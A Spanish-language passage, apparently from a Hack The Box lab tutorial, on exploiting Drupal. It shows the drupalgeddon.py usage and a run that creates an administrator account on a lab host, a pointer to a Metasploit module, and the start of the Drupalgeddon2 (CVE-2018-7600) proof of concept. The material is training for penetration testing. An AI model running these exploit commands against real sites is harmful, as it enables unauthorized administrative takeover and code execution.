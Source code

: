 ```
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww

Usage: drupalgeddon.py -t http[s]://TARGET_URL -u USER -p PASS

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        Insert URL: http[s]://www.victim.com
  -u USERNAME, --username=USERNAME
                        Insert username
  -p PWD, --pwd=PWD     Insert password

```

Aquí vemos que necesitamos proporcionar la URL de destino y un nombre de usuario y contraseña para nuestra nueva cuenta de administración. Ejecutemos el script y veamos si obtenemos un nuevo usuario administrador.

Atacando a Drupal

```
xnoxos@htb[/htb]$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd<SNIP>

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node

```

Ahora veamos si podemos iniciar sesión como administrador. ¡Podemos! Ahora a partir de aquí, podríamos obtener un caparazón a través de los diversos medios discutidos anteriormente en esta sección.

![](https://academy.hackthebox.com/storage/modules/113/drupalgeddon.png)

También podríamos usar el[Exploit/multi/http/drupal_druPageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/)Módulo de metasploit para explotar esto.

---

# **Drupalgeddon2**

Podemos usar[este](https://www.exploit-db.com/exploits/44448)POC para confirmar esta vulnerabilidad.

Atacando a Drupal

```
xnoxos@htb[/htb]$ python3 drupalgeddon2.py################################################################# Proof-Of-Concept for CVE-2018-7600# by Vitalii Rudnykh# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders# https://github.com/a2u/CVE-2018-7600################################################################Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt

```

